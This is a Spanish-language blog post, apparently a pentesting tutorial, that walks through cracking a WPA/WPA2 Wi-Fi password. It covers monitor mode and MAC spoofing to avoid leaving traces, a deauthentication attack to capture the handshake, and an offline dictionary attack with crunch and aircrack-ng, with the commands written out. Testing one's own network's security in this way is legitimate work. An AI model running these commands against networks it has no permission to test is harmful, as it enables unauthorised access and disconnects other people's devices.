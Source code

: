 ```yaml
---
layout: single

title: Hacking WiFi - Pentesting WiFi

excerpt: "**El ataque que presento**
consiste en obtener el handshake WPA/WPA2 que se lleva a cabo entre las estaciones (clientes Wi-Fi) y el BSSID (punto de acceso) para intercambiar la clave compartida de cifrado de la red Wi-Fi durante la fase de autenticación, y luego intentar romperlo off-line mediante un diccionario de contraseñas."
date: 2022-07-29

classes: wide

header:

    teaser: ../assets/images/wifi/logo.png

    teaser_home_page: true
    
    icon: ../assets/images/logofairy.png

categories:

    - Wifi Slax
    - Kali Linux
    - Hacking Wifi
    - Wifi
    - Pentesting

tags:  

- Hacking WiFi
---
```


![](/assets/images/wifi/wallpapers.png)

La idea de esta guía es comprobar la seguridad de una red wifi. 

Para comenzar con esta practica se necesita una distribución GNU/Linux, la suite de software de seguridad inalámbrica **Aircrak-ng** y **Macchanger**.

* GNU/Linux: Recomiendo un live de Kali Linux o Wifi Slax.
* AIRCRACK-NG: Suite de software de seguridad inalámbrica. 
* MACCHANGER: Permite cambiar la Dirección **MAC** de una interfaz.

En caso de que se use alguna distribución de las cuales no son orientadas a Pentesting, se puede instalar las herramientas de la siguiente manera:

```bash
apt install aircrak-ng macchanger
```

El equipo que utilizo para este ejemplo es una Netbook de conectar igualdad.


![](/assets/images/wifi/debian.png)


## MODO MONITOR

El modo monitor permite capturar los paquetes que viajan en el aire y obtener información de los clientes denominados estaciones, que se encuentran dentro de una red WiFi y sus respectivas **MAC**. 

Hay que distinguir entre el **ESSID** que generalmente es el nombre que hace referencia al la red WiFi y el **BSSID** que hace referencia a la dirección MAC del dispositivo.

Para poner la tarjeta WiFi en ""modo monitor" es necesario conocer el nombre de la interfaz:


```bash
sudo ifconfig
```
![](/assets/images/wifi/ifconfig.png)

Como se puede observar en la imagen, el nombre de mi interfaz es **wlp3s0** y para activar el "modo monitor" se debe ejecutar el siguiente comando:

```bash
sudo airmon-ng start wlp3s0
```
![](/assets/imagen/wifi/monitor.png)

Ahora el nombre de la interfaz cambio a **wlp3s0mon**. Este nombre se debe a que la interfaz se encuentra en "modo monitor".

Si se ejecuta el comando _ifconfig_ se puede ver la descripción de la interfaz. 

Teniendo en cuenta que el ataque se realizara con nuestro ordenador, no se debe dejar huellas. Aquí es donde entra **macchanger**, el cual permite asignar una nueva dirección **MAC** aleatoria a cualquier interfaz.

Para lograr cambiar la dirección **MAC** de la interfaz monitor se deben seguir tres paso:

* Apagar la interfaz.
* Usar Macchanger.
* Activar la interfaz.

```bash
sudo ifconfig wlp3s0mon down
sudo macchanger -a wlp3s0mon
sudo ifconfig wlp3s0mon up
```
![](/assets/images/wifi/macchanger.png)

Ahora que todo esta configurado correctamente es hora de analizar el trafico que pasa por el aire.

![](/assets/images/wifi/airodump-ng.png)

* **PWR** hace referencia al "power". Cuanto mas bajo sea el valor, mejor es la señal que se recibe.

Luego de unos segundos se puede detener el análisis y elegir una red para **sniffear**. 

En este ejemplo usare la red de mi hogar:

```bash
airodump-ng --channel 1 -w wifi-casa --bssid xx:xx:xx:xx wlp3s0mon
```

* **- -channel:** el canal que utiliza la red WiFi.
* **-w:** nombre del archivo donde se guardara información.
* **- -bssid:** mac del router.
* **wlp3s0mon:** nombre de la interfaz monitor.

![](/assets/images/wifi/airodump-wifi-casa.png)

Dentro del directorio donde se esta ejecutando el ataque se crearon varios archivos, entre los cuales solo sera útil el que finaliza con extensión **.cap**.

![](/assets/images/wifi/ls.png)

## DES-AUTENTICACIÓN

El proceso para poder obtener el password de la red WiFi es desconectar a un cliente de la red con un ataque de **des-autenticación** generado por nuestro ordenador y así poder obtener el **HANDSHAKE**.

Utilizando **aireplay** se puede des-autenticar a un cliente de una red.

La sintaxis del comando es:

**aireplay-ng --deauth 4 -a "mac-wifi" -c "mac-cliente" wlp3s0mon**

```bash
sudo aireplay-ng --deauth 4 -a ec:e4:xx:xx:xx:xx -c e4:g3:xx:xx:xx:xx wlp3s0mon
```

![](/assets/images/wifi/deauth.png)

Con esto se logra capturar el **HANDSHAKE**, al caul por medio de un diccionario de furza bruta se podrá obtener la clave de la red WiFi.


## DICCIONARIO

Para crear un diccionario usare la herramienta **crunch**. La cual permite generar diccionarios de claves en función de diversos parámetros.
 
La sintaxis para crear un diccionario con **crunch** es la siguiente:

**crunch [nin] [max] [caracteres] -t [patron] -o [nombre del archivo]**

```bash
crunch 8 8 0123456789 -t 36@@@@@@ -o diccionario
```

![](/assets/images/wifi/diccionario.png)

El diccionario generado cuenta con miles de contraseñas de 8 dígitos.

![](/assets/images/wifi/diccionario1.png)

## CRACKERAR

Para crackear el **HANDSHAKE** solo bastara con **aircrack-ng** y el tiempo que se demore dependerá de la potencia del **CPU**.



```bash
sudo aircrack-ng wifi-casa-06.cap -w diccionario
```
![](/assets/images/wifi/crack.png)

Clave obtenida.

![](/assets/images/wifi/crack1.png)

La velocidad de mi **CPU** es 517 claves por segundos y le tomo 25 segundos en poder descifrar la clave de la red WiFi.

**Salir del modo monitor:**
 
```bash
sudo airmon-ng stop wlp3s0mon
```

Para conocer mas sobre la suite de aircrack-ng se puede visitar su pagina web.

- [Aircrack-ng](https://www.aircrack-ng.org/)
